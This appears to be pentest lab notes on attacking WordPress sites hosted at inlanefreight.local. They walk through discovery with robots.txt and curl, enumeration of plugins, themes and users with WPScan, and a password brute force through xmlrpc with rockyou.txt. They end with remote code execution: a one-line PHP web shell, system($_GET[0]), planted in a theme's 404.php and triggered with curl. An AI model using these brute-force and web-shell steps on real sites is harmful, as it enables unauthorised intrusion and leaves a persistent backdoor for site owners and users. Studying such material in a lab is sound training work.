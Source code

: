 # Wordpress

## Overview

## Discovery

A quick way to identify a WordPress site is by browsing to the /robots.txt file. A typical robots.txt on a WordPress installation may look like:

```
User-agent: *
Disallow: /wp-admin/
Allow: /wp-admin/admin-ajax.php
Disallow: /wp-content/uploads/wpforms/

Sitemap: https://inlanefreight.local/wp-sitemap.xml
```

Another quick way to identify a WordPress site is by looking at the page source.

```shell
curl -s http://blog.inlanefreight.local | grep WordPress
```

## Enumeration

### Themes and Plugins

Find the themes:

```shell
curl -s http://blog.inlanefreight.local/ | grep themes
```

Find the plugins:

```shell
curl -s http://blog.inlanefreight.local/ | grep plugins
```

For the plugins found we can try to get there readme.txt to get their version:

```
http://blog.inlanefreight.local/wp-content/plugins/mail-masta/readme.txt
```

Check for exploits in both themes and plugins used.

### Users

An invalid username returns that the user was not found. So we can do user enumeration this way.

## Enumeration - Automation

### WPScan

```shell
sudo wpscan -e ap -t 500 --url http://ir.inlanefreight.loca
```

To enumerate users:

```shell
wpscan -e u -t 500 --url http://ir.inlanefreight.local
```

```shell
sudo wpscan --url http://blog.inlanefreight.local --enumerate --api-token dEOFB<SNIP>
```

We can obtain an API token from WPVulnDB, which is used by WPScan to scan for PoC and reports

## Attacks

### Login Bruteforce

```shell
sudo wpscan --password-attack xmlrpc -t 20 -U john -P /usr/share/wordlists/rockyou.txt --url http://blog.inlanefreight.local
```

### RCE

As admin, edit a used theme 404.php page, with:

```php
system($_GET[0]);
```

Then do

```shell
curl http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?0=id
```